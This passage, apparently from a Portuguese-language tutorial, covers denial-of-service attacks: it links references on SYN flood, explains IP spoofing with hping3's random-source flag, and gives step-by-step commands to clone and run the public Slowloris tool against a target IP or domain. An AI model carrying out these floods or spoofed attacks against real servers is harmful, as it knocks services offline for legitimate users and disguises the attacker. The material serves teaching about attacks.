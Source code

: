 
- [RFC sobre SYN flood](https://tools.ietf.org/html/rfc4987)
- [Arigo sobre SYN Flood da Phrack Magazine](http://phrack.org/issues/48/13.html#article)
- [Repositório do Hping3 no Github](https://github.com/antirez/hping)
- [Wiki do Hping3](http://wiki.hping.org/)




### IP Spoofing
Em geral é muito fácil se defender de um desses ataques, pois basta bloquear quaisquer pacotes advindos do IP do atacante. No entanto, uma prática comum, e que torna o ataque muito mais poderoso, é a de IP Spoofing.

A ideia por trás do IP spoofing é de enviar pacotes com IP de origem diferente do real, fazendo parecer que os pacotes vêm de outras máquinas.

No Hping3, podemos fazer o IP Spoofing especificando mais uma flag: `--rand-source`, que coloca um valor de IP aleatório como origem do pacote, ou `--rand-dest`, que coloca um IP aleatório como destino do pacote.



## Um...Segundo...Ataque

### Slow Loris
A ideia por trás do Slow Loris é abrir várias conexões TCP com um servidor web e, em cada uma delas, enviar de tempos em tempos uma parte de uma requisição GET. O servidor acha que as conexões estão lentas, mas que são legítimas, então ele as mantêm, impedindo outras conexões de usuários comuns.

Para esse ataque, vamos usar [esse código maravilindo](https://github.com/gkbrk/slowloris). Primeiro clonamos o repositório:

```
$ git clone https://github.com/gkbrk/slowloris
```


Depois entramos no repositório clonado:

```
$ cd slowloris
```
**Obs:** É possível que você precise especificar um caminho diferente ao `cd`, dependendo da pasta para onde o repositório foi clonado e da pasta onde você está.


Finalmente, basta usar o python para executar o código, passando o IP do alvo (nesse caso, nosso alvo é `10.10.10.10`):

```
$ python3 slowloris.py 10.10.10.10
```

Ou apenas o domínio, caso exista:

```
$ python3 slowloris.py example.com
```
